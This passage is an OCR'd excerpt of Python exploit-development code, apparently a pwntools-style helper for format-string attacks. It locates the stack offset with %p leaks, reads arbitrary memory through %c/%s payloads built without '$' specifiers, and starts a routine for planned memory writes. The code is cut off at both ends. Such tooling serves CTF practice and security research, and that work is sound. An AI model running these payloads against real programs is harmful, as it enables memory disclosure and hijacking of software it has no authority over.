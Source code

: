 ```python
        """
        marker = cyclic(20)
        fmt = b"START" + (b"%p|" * max_args) + b"END"
        leak = self.execute_fmt(marker + fmt)

        m = re.findall(br"START(.*?)END", leak, re.DOTALL)
        if m:
            between = m[0].strip(b"|")
            tokens = [t for t in between.split(b"|") if t]
            for idx, tok in enumerate(tokens, start=1):
                try:
                    if not tok.startswith(b"0x"): 
                        continue
                    ptr = int(tok, 16)
                    pos = cyclic_find(pack(ptr)[:4])
                    if 0 <= pos < 20:
                        return idx, pos
                except Exception:
                    continue

        # Fallback: slower but reliable, try each one
        for off in range(1, 1000):
            val = self.leak_stack(off, marker)
            pos = cyclic_find(pack(val)[:4])
            if 0 <= pos < 20:
                return off, pos

        return None, None

    # ---------- LEAK FROM ARBITRARY ADDRESS WITHOUT $ ----------
    def _leaker(self, addr):
        # ELF header hack (copied from pwntools)
        if addr & 0xfff == 0 and self.leaker._leak(addr+1, 3, False) == b"ELF":
            return b"\x7f"

        # consume (offset-1) arguments with %c, then use %s for the target address
        advance = max(0, (self.offset or 1) - 1)
        fmt = b"START" + (b"%c" * advance) + b"%sEND"

        # one dummy word per %c, actual pointer for the final %s
        dummy = b"".join(pack(0) for _ in range(advance))
        ptr   = pack(addr)
        args  = dummy + ptr

        # payload layout: [padlen: fmt][padlen+len(fmt): args]
        fmtstr = fit({
            self.padlen: fmt,
            self.padlen + len(fmt): args,
        })

        leak = self.execute_fmt(fmtstr)
        try:
            data = re.findall(br"START(.*)END", leak, re.MULTILINE | re.DOTALL)[0]
        except Exception:
            data = b""
        return data + b"\x00"

    # ---------- WRITE WITHOUT $ ----------
    def execute_writes(self):
        """
        Emit and send planned writes in NO-DOLLARS mode.
        """
        fmtstr = randoms(self.padlen).encode()
```